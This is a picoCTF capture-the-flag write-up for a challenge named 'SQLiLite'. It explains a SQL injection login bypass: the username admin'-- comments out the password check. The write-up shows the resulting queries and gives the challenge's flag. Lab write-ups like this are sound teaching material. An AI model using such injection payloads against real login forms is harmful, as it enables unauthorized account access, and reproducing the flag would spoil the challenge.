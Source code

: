 # SQLiLite - 300 pts

### Key points

- SQL Injection

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)

---

## Overview

### Description

> Can you login to this website?

SQLi, or SQL Injecton, is a form of code injection into a SQL database to access information that is not intended to be accessed.

We need to login as `admin`.

---

## Solution

If you try to login normally, your username, password, and the SQL query is displayed.

```
username: admin
password: pass
SQL query: SELECT * FROM users WHERE name='admin' AND password='pass'

Login failed.
```

Let's try a simple injection to see if there are any filters:

```
username: admin'--
password: pass
SQL query: SELECT * FROM users WHERE name='admin'--' AND password='pass'
Logged in! But can you see the flag, it is in plainsight.
```

That was easy. The reason this works is because the quotation in `admin'--` closes off the quotation in the query. The `--` is a comment in SQL, which means the rest of the query is never evaluated. Now, the query simply finds users named `admin`, regardless of the password.

The flag can be found in a hidden `<p>` element. Use the inspector to see it.

---

## Flag

> `picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}`
